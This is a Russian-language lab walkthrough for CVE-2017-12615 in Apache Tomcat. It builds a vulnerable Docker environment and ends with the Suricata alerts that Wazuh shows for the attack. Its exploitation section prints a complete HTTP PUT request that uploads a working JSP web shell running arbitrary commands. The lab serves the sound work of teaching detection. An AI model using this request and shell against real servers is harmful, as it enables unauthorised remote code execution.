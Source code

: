 # CVE-2017-12615

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12615](https://nvd.nist.gov/vuln/detail/CVE-2017-12615)
* [https://www.opencve.io/cve/CVE-2017-12615](https://www.opencve.io/cve/CVE-2017-12615)

Apache Tomcat — это комплект серверных программ от Apache Software Foundation, предназначенный для тестирования, отладки и исполнения веб-приложений на основе Java.

При запуске Apache Tomcat версий 7.0.0–7.0.79 в Windows с включенным методом HTTP PUT  можно загрузить файл JSP на сервер с помощью специально созданного запроса. При запросе этого файла будет выполняться код, содержащийся в нем.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose build 
docker compose up -d
```

После запуска под адресу http://ваш-ip:8080/ будет доступна стандартная страница Apache Tomcat

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Отправьте следующий запрос:

```
PUT /1.jsp/ HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 898


<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```

В данном запросе полезной нагрузкой является код, реализующий CMD Injection

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Теперь, обращаясь к созданному файлу 1.jsp мы можем выполнять произвольные команды на хосте:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
